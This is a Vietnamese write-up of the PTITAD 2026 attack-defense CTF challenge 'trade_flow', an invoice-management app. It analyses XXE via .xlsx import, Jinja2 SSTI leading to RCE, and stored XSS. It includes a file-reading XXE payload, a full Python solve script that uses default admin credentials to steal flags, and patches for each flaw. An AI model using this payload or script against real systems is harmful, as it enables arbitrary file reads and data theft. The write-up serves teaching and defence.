







# PTITAD 2026

## 3. AD - trade_flow

### Mô tả bài

Một ứng dụng quản lý hóa đơn xuất nhập khẩu, chạy ở cổng `1337` . Nghiệp vụ chính gồm ba phần: import hóa đơn từ file `.xlsx` do người dùng tải lên, quản lý mẫu in do vai trò `chief_accountant` soạn, và in hóa đơn bằng cách render mẫu in đó ra HTML. Flag được cất trong cột `forcad_flag` của các hóa đơn ẩn, đồng thời được vật chất hóa vào file `/app/data/flag.txt`.

Ứng dụng có ba lỗ hổng độc lập, mỗi lỗ hổng đủ để lấy flag:

1. XXE qua đường import `.xlsx` - đọc file tùy ý trên server (kể cả `/app/data/flag.txt`).
2. SSTI → RCE qua mẫu in Jinja2 không sandbox.
3. Stored XSS qua mẫu in được nhúng bằng filter `|safe`.

### Phân tích và khai thác

#### Lỗ hổng #1 - XXE qua import `.xlsx` (đường lấy flag trực tiếp)

Một file `.xlsx` bản chất là một archive ZIP chứa các file XML. Khi import, server đọc `xl/worksheets/sheet1.xml` rồi parse bằng `lxml` với cấu hình:

```python
def _parser() -> etree.XMLParser:
    return etree.XMLParser(
        resolve_entities=True,   # ← cho phép expand external entity
        load_dtd=True,           # ← cho phép DOCTYPE khai báo SYSTEM entity
        no_network=True,         # chỉ chặn URI mạng (http/ftp), KHÔNG chặn file://
    )
```

`resolve_entities=True` + `load_dtd=True` bật đầy đủ cơ chế XML External Entity. `no_network=True` nghe có vẻ an toàn nhưng nó chỉ chặn các URI qua mạng - `file://` là truy cập cục bộ nên vẫn được phép. Bảng tính thực tế không bao giờ cần DTD hay entity, nên đây là cấu hình sai hoàn toàn.

Giá trị các ô sau khi parse được đổ thẳng vào các field hóa đơn (`invoice_number`, `partner_name`, ...) và trả về trong `preview`. Endpoint import chỉ lọc bỏ hai field nội bộ:

```python
_INTERNAL_IMPORT_FIELDS = {"forcad_flag", "forcad_key"}

def _public_import_preview(rows):
    return [
        {k: v for k, v in row.items() if k not in _INTERNAL_IMPORT_FIELDS}
        for row in rows
    ]
```

Nghĩa là mọi field như `partner_name` đều được echo lại nguyên vẹn. Ta chỉ cần nhồi nội dung file flag vào một ô thuộc field công khai:

```xml
<?xml version="1.0"?>
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "file:///app/data/flag.txt"> ]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <sheetData>
    <row r="1"><c r="A1" t="inlineStr"><is><t>invoice_number</t></is></c>
                <c r="B1" t="inlineStr"><is><t>partner_name</t></is></c></row>
    <row r="2"><c r="A2" t="inlineStr"><is><t>INV-XXE</t></is></c>
                <c r="B2" t="inlineStr"><is><t>&xxe;</t></is></c></row>  <!-- flag lộ ở đây -->
  </sheetData>
</worksheet>
```

Khi parse, `&xxe;` được expand thành nội dung `/app/data/flag.txt`, gán vào `partner_name`, và trả về trong `preview[0]["partner_name"]`.



#### Lỗ hổng #2 - SSTI → RCE qua mẫu in

Mẫu in do vai trò `chief_accountant` soạn (`POST /api/print-templates`) và lưu vào `PrintTemplate.content`. Khi in hóa đơn, nội dung này được render:

```python
# services/templates.py
from flask import render_template_string

def render_print_template(source: str, context: dict) -> str:
    return render_template_string(source, context)   # ← Jinja2 KHÔNG sandbox
```

`render_template_string` dùng môi trường Jinja2 mặc định, không sandbox, nên mẫu in truy cập được các thuộc tính nội bộ (`__class__`, `__globals__`, `__builtins__`, ...) - dẫn tới thực thi lệnh tùy ý. Route `print_invoice` truyền vào context các object thật (`hoa_don` là chính đối tượng `Invoice`), làm điểm khởi đầu cho gadget chain.

Payload đặt vào `content` của mẫu in. Vì `render_template_string` của Flask luôn nhét sẵn `request`/`config` vào context, dùng gadget chain qua `request` là chắc chắn nhất.

Sau khi lưu mẫu in, gọi `GET /invoices/<id>/print?template=<id_mẫu>` → server render → lệnh chạy, output nằm trong HTML bản in.






hoặc có thể RCE






#### Lỗ hổng #3 - Stored XSS qua mẫu in

Trang in nhúng kết quả render không escape, bằng filter `|safe`:

```html
<!-- templates/print_invoice.html, dòng 4 -->
<div class="print-canvas">{{ rendered|safe }}</div>
```

Vì Jinja2 khi render chuỗi mẫu (string template) không bật autoescape, các giá trị dữ liệu như `partner_name` được nội suy nguyên văn vào `rendered`; rồi `|safe` ở lớp ngoài in thẳng ra trình duyệt. Chỉ cần đặt `partner_name = <script>...</script>` (qua sửa hóa đơn hoặc qua chính import), khi ai đó mở trang in, script chạy trong ngữ cảnh nạn nhân - stored XSS.





Nhưng mà lỗ hổng này có vẻ không lấy được flag

#### Script giải

Tài khoản chỉ cần login mặc định được seed sẵn (`admin/admin`).

```python
import io
import re
import secrets
import sys
import zipfile

import requests

PORT = 1337
TIMEOUT = 10
FLAG_RE = re.compile(r"PTITAD\{[A-Za-z0-9_]+\}")


def build_xxe_xlsx(target_file, invoice_number):
    sheet_xml = f"""<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "file://{target_file}"> ]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <sheetData>
    <row r="1">
      <c r="A1" t="inlineStr"><is><t>invoice_number</t></is></c>
      <c r="B1" t="inlineStr"><is><t>partner_name</t></is></c>
      <c r="C1" t="inlineStr"><is><t>quantity</t></is></c>
      <c r="D1" t="inlineStr"><is><t>unit_price</t></is></c>
    </row>
    <row r="2">
      <c r="A2" t="inlineStr"><is><t>{invoice_number}</t></is></c>
      <c r="B2" t="inlineStr"><is><t>&xxe;</t></is></c>
      <c r="C2" t="inlineStr"><is><t>1</t></is></c>
      <c r="D2" t="inlineStr"><is><t>1</t></is></c>
    </row>
  </sheetData>
</worksheet>"""
    buf = io.BytesIO()
    with zipfile.ZipFile(buf, "w") as z:
        z.writestr("xl/worksheets/sheet1.xml", sheet_xml)
    return buf.getvalue()


def login(session, base):
    r = session.post(f"{base}/api/auth/login",
                     json={"username": "admin", "password": "admin"}, timeout=TIMEOUT)
    r.raise_for_status()
    return r.json()["access_token"]


def steal(ip):
    base = f"http://{ip}:{PORT}"
    session = requests.Session()
    headers = {"Authorization": f"Bearer {login(session, base)}"}

    flags = set()
    for target_file in ("/app/data/flag.txt", "/flag.txt"):
        invoice_number = "XXE-" + secrets.token_hex(6)          # ngẫu nhiên, tránh trùng
        payload = build_xxe_xlsx(target_file, invoice_number)
        files = {"file": ("import.xlsx", payload,
                          "application/vnd.openxmlformats-officedocument.spreadsheetml.sheet")}
        r = session.post(f"{base}/api/invoices/import", files=files,
                         headers=headers, timeout=TIMEOUT)
        if r.status_code != 201:
            continue
        flags.update(FLAG_RE.findall(r.text))
    return flags


if __name__ == "__main__":
    ip = sys.argv[1]              
    for flag in steal(ip):
        print(flag, flush=True)
```

#### Nguyên nhân gốc và hướng vá

Ba lỗ hổng cần vá đồng thời:

1. Tắt DTD và entity khi parse XLSX - bảng tính không cần chúng:

```python
def _parser() -> etree.XMLParser:
    return etree.XMLParser(
        resolve_entities=False,   # không expand entity
        load_dtd=False,           # không load DTD
        no_network=True,
    )
```

2. Render mẫu in bằng Jinja2 sandbox, không dùng môi trường mặc định:

```python
from jinja2.sandbox import SandboxedEnvironment

_ENV = SandboxedEnvironment(autoescape=False, finalize=_neutralize_tags)

def render_print_template(source: str, context: dict) -> str:
    return _ENV.from_string(source).render(context)
```

`SandboxedEnvironment` chặn truy cập thuộc tính bắt đầu bằng `_` và builtins nguy hiểm, vô hiệu gadget chain nhưng vẫn cho `for`/`if`/thay biến bình thường.

3. Vô hiệu HTML tag trong dữ liệu nội suy - dùng `finalize` hook escape `<` và `>` cho mọi `{{ expr }}`, thay vì tin `|safe`:

```python
def _neutralize_tags(value):
    if value is None:
        return value
    return str(value).replace("<", "&lt;").replace(">", "&gt;")
```

